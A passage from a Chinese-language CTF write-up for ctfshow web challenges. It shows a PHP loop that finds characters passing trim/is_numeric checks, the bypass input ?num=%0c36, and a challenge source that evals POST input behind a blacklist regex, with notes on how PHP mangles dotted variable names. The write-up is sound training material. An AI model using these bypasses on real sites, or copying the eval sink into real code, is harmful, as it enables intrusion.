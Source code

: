 输出了`%09   %0A   %0B   %0C   %0D  +   %2B  - .`

再来看看 trim+is_numeric

```php
for ($i=0; $i <=128 ; $i++) { 
    $x=chr($i).'1';
   if(trim($x)!=='1' &&  is_numeric($x)){
        echo urlencode(chr($i))."\n";
   }
}
```

输出

```
%0C   %2B   -   .   0   1   2   3   4   5   6   7   8   9
```

而 `%2B	 (+)`、`-` 、 `.` 被过滤。所以构造

```
?num=%0c36
```

## web123~php变量命名，_SERVER['argv'];

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

php变量命名是不允许使用点号的,所以`isset($_POST['CTF_SHOW.COM'])`就很难搞。

本地暴破一下：

1.php

```php
<?php
var_dump($_POST);
```
